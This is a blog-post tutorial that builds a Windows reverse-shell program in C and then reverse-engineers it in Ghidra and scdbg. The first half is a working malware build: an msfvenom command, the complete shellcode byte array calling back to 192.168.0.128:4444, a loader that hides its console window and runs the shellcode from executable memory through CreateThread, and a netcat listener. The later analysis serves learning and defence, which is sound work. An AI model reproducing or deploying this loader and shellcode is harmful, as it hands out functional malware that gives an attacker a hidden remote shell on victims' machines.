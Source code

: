 ```yaml
---
layout: post
title:  "Malware 101: Develop and Analyze our own malware"
image: ''
date:   2021-09-20 00:00:00
tags: [Malware Analysis,Malware Development]
description: 'Describe here'
categories: [Blog]
---
```


In this post, we'll learn together how to write a basic malware program that does a reverse shell connection (using shellcode) and analyze our own compiled malware. We'll play around with C code using Visual Studio IDE and MSVenom for the creation of the shellcode.

# Malware development
## Create a new project in Visual Studio
We'll start with creating a new project. Choose the "Console App". Make sure you choose C++.

![image](https://user-images.githubusercontent.com/56353946/134101602-d20f27df-8714-4e1f-b3c9-ee7e0b549ef6.png)

Name your new project. I'm gonna use "revshell_exe".

![image](https://user-images.githubusercontent.com/56353946/134101656-1e5e23a5-218e-47e2-8a66-046496247a28.png)

Now, let's go to our Kali and fire up `msvenom` to generate our Windows reverse shell's shellcode to embed in our malware executable.

## Generate reverse shell's shellcode using MSVenom
Before we generate a "shellcode". Some of the beginners might have no idea what does the shellcode means. So, "Shellcode" is a set of instructions that executes a command in software to take control of or exploit a compromised machine. In our case here, our shellcode is to gain the remote system shell of our victim. 
The shellcode is not only for shell access, instead there's much other shellcode action that could be done by the author like privilege escalation and many more.

To generate the shellcode using msvenom, run this command below:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c
```
Example:
![image](https://user-images.githubusercontent.com/56353946/134104090-9e583dc7-1a98-448a-b3b2-cade2e54b17a.png)

All we need now is to copy the shellcode I highlighted in the red box and paste it into our `main` function inside VS IDE.

## Coding
When it comes to programming, you need to be familiar with C and WinAPI. Below codes, I've put some comments to guide and understand what does the code does.

```
#include <Windows.h>

int main()
{
    // Run our executable console app in the background
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), false);
    
    // MSVenom shellcode payload here
    unsigned char buf[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
        "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68"
        "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
        "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
        "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
        "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
        "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
        "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

    //Allocate memory for the shellcode
    PVOID shellcode = VirtualAlloc(0, sizeof buf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //Copies contents of memory block to destination
    RtlCopyMemory(shellcode, buf, sizeof buf);

    //Execute shellcode as new thread
    DWORD threadID;
    HANDLE handleThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode, NULL, 0, &threadID);

    //Wait till thread terminates
    WaitForSingleObject(handleThread, INFINITE);
}
```

If you don't understand the WinAPI, here is some documentation from Microsoft:

0. ShowWindow = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow)
1. VirtualAlloc = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
2. RtlCopyMemory = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory)
3. CreateThread = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
4. WaitForSingleObject = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

## Test out our malware
Check for any errors in your code and now we are good to go.

In our Kali, let's listen to our reverse shell. In my case, my port will be on 4444.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvp 4444                                                             
listening on [any] 4444 ...
```

In "Solution Configurations", change `Debug` to `Release`. Then, click Run icon.

![image](https://user-images.githubusercontent.com/56353946/134106107-ea72aebb-989b-411e-8bc8-1615343f21c1.png)

After the program executed, our Kali will gain the remote shell cmd.

![image](https://user-images.githubusercontent.com/56353946/134106322-be7021e7-b46e-4827-a00b-a4aa78dfd062.png)

Our shellcode and malware successfully execute.

# Malware analysis and reversing
Now copy your malicious executable from Release folder into your malware analysis lab and start analysing + reversing the program.

## Ghidra analysis
The result of decompiler of Ghidra have a slightly changes from our code. This is due to the how compiler compiled our executable and how the Ghidra translate from the assembly code.

Here the explaination of the decompiled code:
![image](https://user-images.githubusercontent.com/56353946/134110659-9ddd86a9-b7c4-41b4-b290-38cd6128b325.png)

## Extract shellcode
From the decompiler code, we can locate the shellcode in the Ghidra.
![image](https://user-images.githubusercontent.com/56353946/134120641-35e9e82b-f9ef-4a72-ac4b-7287fc654362.png)

This will bring us to the shellcode bytes in the "Listing view".
![image](https://user-images.githubusercontent.com/56353946/134120921-119550ac-b403-4ac9-bb6f-61fa2595368f.png)

To extract the shellcode, select all the bytes until the finish.
![image](https://user-images.githubusercontent.com/56353946/134121249-9c8cb16d-ca5e-44ab-91b2-71f6b94d077f.png)

Go to Window tab > Bytes: filename.exe. The selected bytes now also been selected in the hex view.
![image](https://user-images.githubusercontent.com/56353946/134121356-61fe7c0b-d3df-4ec3-aaf9-6a9cef4774ca.png)

Copy the bytes and paste into hex editor like HxD. And save it.
![image](https://user-images.githubusercontent.com/56353946/134121520-9771cd80-3114-4689-a466-31ae8b9e5211.png)

Now to analyze the shellcode, there's some options:
1. Use scdbg <-- We will use this
2. Use jmp2it
3. Convert the shellcode into executable. And debug the executable using x32dbg.

## Shellcode analysis
The output below of the scdbg for our shellcode is quite helpful. In our case here, the shellcode was easy to be analyzed. At sometimes, a complex shellcode will not be a simpler like this

![image](https://user-images.githubusercontent.com/56353946/134122559-81100c4a-f7a0-4cc4-83fc-23006b87a167.png)

`LoadLibraryA(ws2_32)`: First, the process will load the DLL file "ws2_32.dll" using LoadLibrary API.

`WSAStartup(190)`: After that, it calls WSAStartup function to initiate the utilization of the Winsock DLL by the current process.

`WSASocket(af=2, tp=1, proto=0, group=0, flags=0)`: It then call the WSASocket to creates a socket.

If we refer the documentation of WSASocket, here the explaination about the number in the prameter:
- af=2 -> The Internet Protocol version 4 (IPv4) address family. 
- tp=1 -> SOCK_STREAM
- proto=0 -> the service provider will choose the protocol to use
- group=0 -> No group operation is performed.
- flags=0 -> A set of flags used to specify additional socket attributes.

`connect(h=42, host: 192.168.0.128 , port: 4444 ) = 71ab4a07`: At this line, the program will establishes a connection to a specific socket. The parameter contains IP of the attacker and his port which will be used to get a reverse shell.

`CreateProcessA( cmd,  ) = 0x1269`: Our shellcode then executes cmd.exe by calling CreateProcessA API

`WaitForSingleObject(h=1269, ms=ffffffff)`: This function will terminate the program when our reverse shell been killed.

`ExitProcess(0)`: Exit and terminate current process.

## Sum up
In the conclusion, we can see that the malware first will be run in the background. And then it allocates some memory space for our shellcode. After allocating the memory region, our shellcode is then being copy to the allocated memory. Then, it uses CreateThread API to execute the shellcode. In the shellcode, it will connect to our IP and port to gain the reverse shell of cmd.exe.
